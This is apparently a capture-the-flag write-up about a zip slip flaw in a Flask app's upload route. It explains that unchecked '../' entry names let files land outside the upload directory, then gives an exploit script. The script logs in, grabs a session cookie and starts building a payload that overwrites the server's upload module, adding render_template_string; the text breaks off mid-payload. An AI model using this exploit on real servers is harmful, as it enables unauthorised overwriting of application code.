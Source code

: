 Basically, it is unzipping the zip, and concatenating the filenames of the files inside into a predetermined upload directory. The issue is that the user can control the file names of the files in the zip, and thus can provide a `../` to traverse directories and the code does not check for this. This allows for a "zip slip" vulnerability. 

I will skip all the testing and enumeration needed to solve this, though I did include a bit of functionality that allows you to test retrieving a file from the `/upload/<zipslip_filename>` directory instead of the `/upload/upload_zip/filename`. Basically if you upload a zip with a file named `../test.txt` in a zip called `ziptest.zip`, you will be able to test that it worked by going to `/upload/test.txt`. It will also not show up if you go to `/upload/ziptest`.

 Here is the final script:
```python
from os import popen
import string
import requests
import io
import zipfile

SERVER_ADDR = "http://127.0.0.1:5000"

def get_cookie():
    data = {
        "username": "test", 
        "password": "test" 
    }

    req = requests.post(SERVER_ADDR+"/login", data=data)
    cookiejar = req.history[0].cookies
    cookie = cookiejar.get_dict()['session']

    return cookie

cookie = {"session": get_cookie()}

payload = """
import os
import zipfile

from app import app
from app.models import User
from flask import flash, redirect, render_template, request, url_for, send_from_directory, render_template_string # add this last import
from flask_login import current_user, login_required
from werkzeug.utils import secure_filename


@app.route('/upload', methods=['GET', 'POST'])
@login_required
def upload():
    if request.method=='POST':
        if 'file' not in request.files:
            flash('No file part', 'danger')
            return redirect(url_for('upload'))
        
        file = request.files['file']
        if file.filename == '':
            flash('No file selected', 'danger')
            return redirect(url_for('upload'))

        if not zipfile.is_zipfile(file):
            flash('The file you provided is not a zip!', 'danger')
            return redirect(url_for('upload'))
        
        filename = secure_filename(file.filename)
```